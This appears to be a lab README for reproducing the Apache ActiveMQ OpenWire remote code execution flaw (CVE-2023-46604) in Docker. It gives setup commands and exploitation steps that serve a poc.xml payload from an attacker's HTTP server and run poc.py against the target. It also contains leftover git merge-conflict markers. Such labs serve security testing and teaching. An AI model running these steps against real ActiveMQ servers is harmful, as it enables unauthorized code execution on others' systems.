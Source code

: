 # Apache ActiveMQ (Version < 5.18.3) RCE （CVE-2023-46604）

[中文版本(Chinese version)](README.zh-cn.md)

## Environment setup

Enter following commands to build and run the vulnerability environment:

```
docker compose up -d
```

The environment listens to port 61616 and port 8161, of which 61616 is the working port. In this vulnerability exploitation, we only need to use port 61616. When executing the vulnerability verification process, please first access port 8161 to confirm that the service has started successfully.

Visit `http://your-ip:8161/` to see the web page, indicating that the environment has been successfully run.

## Background brief

AApache ActiveMQ has a remote code execution vulnerability. This vulnerability may allow remote attackers with network access privileges to execute arbitrary shell commands by manipulating the serialized class types in the OpenWire protocol, leading to the instantiation of any class on the classpath of the agent.

| Default port | Default Condition                    |
|--------------|--------------------------------------|
| 8161 (web)   | Remote access requires configuration |
| 61616 (tcp)  | Remote access allowed                |

## Exploit

You can quickly start an HTTP server in the folder where the poc.xml file is located using the Python3 http.server module
<<<<<<< HEAD

=======
>>>>>>> origin/CVE-2023-46604
```shell
python3 -m http.server 6666
```

execute poc.py
<<<<<<< HEAD

=======
>>>>>>> origin/CVE-2023-46604
```shell
python3 poc.py target port http://ip of http server/poc.xml
```

You can check inside the ActiveMQ container using the following command:

docker exec cve-2023-46604-activemq-1 ls -l /tmp

If you see the output showing that touch /tmp/activeMQ-RCE-success has been executed successfully, then the exploit has worked.

![01.png](01.png)

